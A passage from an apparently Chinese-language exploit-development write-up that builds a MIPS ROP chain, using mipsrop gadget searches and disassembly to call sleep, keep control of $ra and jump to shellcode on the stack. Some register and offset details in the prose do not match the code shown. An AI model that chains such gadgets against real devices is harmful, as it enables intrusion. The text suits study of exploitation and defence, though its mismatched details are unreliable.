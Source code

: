 這樣我們就能控制 s2 寄存器也能控制 PC，下一步就是跳到 sleep, 但是單純的跳到 sleep 是不夠的，同時我們要保證執行完 sleep 後能跳到下一個 gadget ，所以我們還需要一個既能 執行 sleep 又能控制下一個 PC 地址的 gadget
看了眼寄存器，此時 我們還能控制的還挺多，例如我這裏找 $a3 的寄存器
```
Python>mipsrop.find("mov $t9, $s3")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001CE80  |  move $t9,$s3                                        |  jalr  $s3                             |
..........
|  0x000949EC  |  move $t9,$s3                                        |  jalr  $s3                             |
....
```
通過這個 gadget 我們先跳到 s3 的寄存器執行 sleep ，再通過控制的 ra 寄存器進行下一步操作


```
.text:000949EC                 move    $t9, $s3
.text:000949F0                 jalr    $t9 ; uselocale
.text:000949F4                 move    $s0, $v0
.text:000949F8
.text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
.text:000949F8                 lw      $ra, 0x34($sp)
.text:000949FC                 move    $v0, $s0
.text:00094A00                 lw      $s3, 0x24+var_sC($sp)
.text:00094A04                 lw      $s2, 0x24+var_s8($sp)
.text:00094A08                 lw      $s1, 0x24+var_s4($sp)
.text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
.text:00094A10                 jr      $ra
.text:00094A14                 addiu   $sp, 0x38
```
通過這個 gadget 我們先跳到 s3 的寄存器執行 sleep ，再通過控制的 ra 寄存器進行下一步操作
#### 2. jmp shellcode

下一步就是跳到 shellcode ，要跳到shellcode 我們先需要獲得棧地址

我們先用 `Python>mipsrop.stackfinder()`

獲得 如下 gadget

  ```asm
  .text:00095B74                 addiu   $a1, $sp, 52
  .text:00095B78                 sw      $zero, 24($sp)
  .text:00095B7C                 sw      $v0, 20($sp)
  .text:00095B80                 move    $a3, $s2
  .text:00095B84                 move    $t9, $s5
  .text:00095B88                 jalr    $t9
  ```
該 gadget 可以將棧地址， 即 $sp+24 的值賦值給 $a0 ，那麼這個棧就是我們即將填充 shellcode 的地方， $s5 可控，最後這段 gadget 會跳往 $s5 , 那麼我們只需要再找一個直接 jr $a0 的gadget 即可
```
  Python>mipsrop.find("move $t9, $a1")
  ----------------------------------------------------------------------------------------------------------------
  |  Address     |  Action                                              |  Control Jump                          |
  ----------------------------------------------------------------------------------------------------------------
  |  0x000FA0A0  |  move $t9,$a1                                        |  jalr  $a1                             |
  |  0x0012568C  |  move $t9,$a1                                        |  jalr  $a1                             |
```